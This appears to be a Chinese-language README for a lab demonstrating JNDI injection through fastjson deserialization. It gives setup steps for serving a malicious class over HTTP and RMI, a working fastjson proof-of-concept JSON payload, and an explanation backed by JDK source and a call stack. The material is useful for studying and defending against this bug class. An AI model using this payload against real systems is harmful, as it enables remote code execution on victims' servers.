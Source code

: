 # 使用方式
1. 编译恶意文类：javac RemoteEvilObject.java 
2. 打包：jar cvf  remote.jar  RemoteEvilObject.class
2. 运行HTTP服务器python -m SimpleHTTPServer 8086
3. 运行 JndiServer.main
4. 使用fastjson的poc即可触发漏洞
```json
{
  "aaa": {"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},
  "bbb": {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/anything","autoCommit":true}
}
```

# 说明
服务端将一个`ReferenceWrapper`对象绑定到`anything`上，这个对象中`Reference`指向了一个远端地址。
当客户端执行`InitialContext.lookup()`时，会进入`com.sun.jndi.rmi.registry.RegistryContext.decodeObject`，
进而执行`NamingManager.getObjectInstance`获取`Reference`实例对象，本例中就是`RemoteEvilObject`，
进而调用`javax.naming.spi.NamingManager.getObjectFactoryFromReference()`由于本地ClassPath中没有这个类，
就会去远端下载（默认下载到的是jar包，所以需要在第2步中进行打包为jar），
下载后就会根据这个类创建对象，从而触发漏洞
```java
public class NamingManager {

    /**
     * Retrieves the ObjectFactory for the object identified by a reference,
     * using the reference's factory class name and factory codebase
     * to load in the factory's class.
     * @param ref The non-null reference to use.
     * @param factoryName The non-null class name of the factory.
     * @return The object factory for the object identified by ref; null
     * if unable to load the factory.
     */
    static ObjectFactory getObjectFactoryFromReference(
        Reference ref, String factoryName)
        throws IllegalAccessException,
        InstantiationException,
        MalformedURLException {
        Class<?> clas = null;

        // 尝试从本地获取Class
        try {
             clas = helper.loadClass(factoryName);
        } catch (ClassNotFoundException e) {
            // ignore and continue
            // e.printStackTrace();
        }
        // All other exceptions are passed up.

        // 本地ClassPath中找不到这个类，则从ref中设置的codebase中读取
        String codebase;
        if (clas == null &&
                (codebase = ref.getFactoryClassLocation()) != null) {
            try {
                clas = helper.loadClass(factoryName, codebase);
            } catch (ClassNotFoundException e) {
            }
        }

        return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
    }
}
```
下载的调用栈信息如下
```text
sun.net.www.protocol.http.Handler.openConnection(Handler.java:62)
sun.net.www.protocol.http.Handler.openConnection(Handler.java:57)
java.net.URL.openConnection(URL.java:971)
sun.net.www.protocol.jar.JarURLConnection.<init>(JarURLConnection.java:84)
sun.net.www.protocol.jar.Handler.openConnection(Handler.java:41)
java.net.URL.openConnection(URL.java:971)
sun.misc.URLClassPath$JarLoader.getJarFile(URLClassPath.java:708)
sun.misc.URLClassPath$JarLoader.access$600(URLClassPath.java:587)
sun.misc.URLClassPath$JarLoader$1.run(URLClassPath.java:667)
sun.misc.URLClassPath$JarLoader$1.run(URLClassPath.java:660)
java.security.AccessController.doPrivileged(Native Method)
sun.misc.URLClassPath$JarLoader.ensureOpen(URLClassPath.java:659)
sun.misc.URLClassPath$JarLoader.<init>(URLClassPath.java:610)
sun.misc.URLClassPath$3.run(URLClassPath.java:362)
sun.misc.URLClassPath$3.run(URLClassPath.java:352)
java.security.AccessController.doPrivileged(Native Method)
sun.misc.URLClassPath.getLoader(URLClassPath.java:351)
sun.misc.URLClassPath.getLoader(URLClassPath.java:328)
sun.misc.URLClassPath.getResource(URLClassPath.java:194)
java.net.URLClassLoader$1.run(URLClassLoader.java:358)
java.net.URLClassLoader$1.run(URLClassLoader.java:355)
java.security.AccessController.doPrivileged(Native Method)
java.net.URLClassLoader.findClass(URLClassLoader.java:354)
java.lang.ClassLoader.loadClass(ClassLoader.java:423)
java.net.FactoryURLClassLoader.loadClass(URLClassLoader.java:789)
java.lang.ClassLoader.loadClass(ClassLoader.java:356)
java.lang.Class.forName0(Native Method)
java.lang.Class.forName(Class.java:266)
com.sun.naming.internal.VersionHelper12.loadClass(VersionHelper12.java:85)
javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:158) 
javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:319)
com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:456)
com.sun.jndi.rmi.registry.RegistryContext.lookup(RegistryContext.java:120)
com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:203)
javax.naming.InitialContext.lookup(InitialContext.java:411)
JndiClient.main(JndiClient.java:28)
```
# 参考
[关于 JNDI 注入](https://paper.seebug.org/417/)